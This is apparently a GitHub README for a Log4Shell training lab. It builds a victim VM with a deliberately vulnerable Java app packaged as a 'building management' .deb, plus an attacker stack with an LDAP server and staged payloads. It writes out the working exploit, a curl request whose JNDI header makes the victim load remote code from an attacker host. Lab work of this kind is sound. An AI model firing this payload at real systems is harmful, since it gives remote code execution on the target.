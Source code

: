 M75-LOG4J-VULNERABILITY
-----------------------

# Overview

![](./images/log4j-explained.webp)

# Project Structure

```
.
├── README.md
├── attacker                        # Attacker related files
│   ├── docker-compose.yml          # used to build and run the payload-generator, ldap server and http server containers
│   ├── http-dir                    # http server hosted directory
│   │   ├── Plugin.class            # Java class hosted by the http server ready for the victim (stage 2 payload)
│   │   └── fRitPo                  # Linux bash script (stage 3 payload)
│   ├── marshalsec                  # attacker ldap server
│   └── payload-generator           # dockerized payload generator (used to update jave source and compile it)
│       ├── Dockerfile              
│       └── Plugin.src.java         # stage 2 payload source code
├── images                          # README media
└── victim                          # Victim related files
    ├── Makefile                    # Helper script to build the debian package
    ├── buildingmgmt.1.0-2          # fake building management server/app source
    ├── buildingmgmt.1.0-2.deb      # distributable debian package ready for install
    └── log4shell-vulnerable-app    # log4j vulnerable app
```

### References
- [log4shell-dockerlab](https://javarepos.com/lib/ChoiSG-log4shell-dockerlab)

# Usage

## Victim

> Note: The victim must have Java version <=1.8.0_181

1. Download and install older version of Java.

    ```bash
    wget -O /tmp/openjdk-8-jre-headless.deb https://github.com/sintax1/M75-log4j-vuln/blob/master/victim/openjdk-8-jre-headless_8u144-b01-2_amd64.deb?raw=true
    sudo apt install -y /tmp/openjdk-8-jre-headless.deb
    ```

1. Download and install the vulnerable web app.
    ```bash
    sudo apt-get update
    wget -O /tmp/buildingmgmt.deb https://github.com/sintax1/M75-log4j-vuln/blob/master/victim/buildingmgmt_1.0-2_all.deb?raw=true
    sudo apt install -y /tmp/buildingmgmt.deb
    ```

## Attacker

1. clone the source repo onto the attacker VM.

    ```
    git clone https://github.com/sintax1/M75-log4j-vuln.git
    ```

2. Update the configuration (.env)

    ```
    #.env

    VICTIM_TO_ATTACKER_HTTP_PORT=8081
    VICTIM_TO_ATTACKER_PUBLIC_IP_OR_DOMAINNAME=20.231.205.2
    ATTACKER_HTTP_SERVER_PORT=8081
    ATTACKER_HTTP_DIR=./http-dir
    ```

2. Build and run the docker containers.

    > Note: This requires [docker and docker compose](#installing-docker-and-docker-compose) on the attacker VM

    ```
    cd M75-log4j-vuln/attacker
    docker compose up
    ```

3. Launch the exploit.

    ```
    VICTIM=<The victim accessible IP or domain name accessible by the attacker>
    VICTIM_VULN_PORT=<The port where the log4j vulnerable web app is running on the victim>
    ATTACKER=<The attacker IP or Domain name accessible by the victim, for callbacks>
    LDAP_PORT=1389
    STAGE2_JAVA_CLASS_NAME=Plugin
    curl ${VICTIM}:${VICTIM_VULN_PORT} -H 'X-Api-Version: ${jndi:ldap://${ATTACKER}:${LDAP_PORT}/${STAGE2_JAVA_CLASS_NAME}}'
    ```

# Development

## Attacker


## Victim

### Build Java stage 2 payload

> Note: Requires gradle java builder

    ```bash
    cd victim/log4shell-vulnerable-app; gradle bootJar --no-daemon
    cp build/libs/*.jar ../buildingmgmt.1.0-2/building-management.jar
    ```

### Build .deb package

    ```bash
    # Use docker to build so you don't need to install debian build tools locally
    git clone https://github.com/tsaarni/docker-deb-builder.git

    # Build the build cotnainer
    cd docker-deb-builder
    docker build -t docker-deb-builder:20.04 -f Dockerfile-ubuntu-20.04 .

    # create the output dir for the .deb pkg
    mkdir output

    # Build
    ./build -i docker-deb-builder:20.04 -o output <path to debian source>
    ```

### Transfer to the victim and install

    ```bash
    apt install buildingmgmt.*.deb
    ```

# Installing docker and docker compose
```bash
sudo apt update
sudo apt install -y apt-transport-https ca-certificates curl software-properties-common
curl -fsSL https://download.docker.com/linux/ubuntu/gpg | sudo apt-key add -
sudo add-apt-repository "deb [arch=amd64] https://download.docker.com/linux/ubuntu focal stable"
apt-cache policy docker-ce
sudo apt install -y docker-ce

mkdir -p ~/.docker/cli-plugins/
curl -SL https://github.com/docker/compose/releases/download/v2.2.3/docker-compose-linux-x86_64 -o ~/.docker/cli-plugins/docker-compose
chmod +x ~/.docker/cli-plugins/docker-compose
sudo chown $USER /var/run/docker.sock

```
